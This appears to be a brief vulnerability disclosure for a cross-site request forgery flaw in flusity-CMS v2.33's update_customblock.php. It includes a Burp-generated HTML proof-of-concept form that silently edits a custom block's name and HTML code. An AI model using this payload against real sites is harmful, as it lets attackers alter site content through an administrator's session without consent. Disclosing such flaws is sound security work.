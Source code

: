 target:https://github.com/flusity/flusity-CMS
version: v2.33

flusity-CMS v2.33 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  /core/tools/update_customblock.php

![1](https://github.com/MSfAdminUser/cms/assets/157438577/f642a6b7-b3e4-4b7e-8f17-9287ba476cb9)


Poc:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/core/tools/update_customblock.php" method="POST" enctype="multipart/form-data">
      <input type="hidden" name="mode" value="edit" />
      <input type="hidden" name="customblock&#95;id" value="39" />
      <input type="hidden" name="customblock&#95;place&#95;id" value="8" />
      <input type="hidden" name="customblock&#95;menu&#95;id" value="0" />
      <input type="hidden" name="customblock&#95;name" value="cs123" />
      <input type="hidden" name="customblock&#95;html&#95;code" value="123" />
      <input type="hidden" name="lang&#95;custom&#95;name" value="" />
      <input type="hidden" name="lang&#95;custom&#95;content" value="" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>



```

![2](https://github.com/MSfAdminUser/cms/assets/157438577/c9d24255-23d8-489f-80b0-be2623b3aa3c)


Successed

![3](https://github.com/MSfAdminUser/cms/assets/157438577/377ecd36-ca22-4b90-95e1-d7a60e8fe86a)
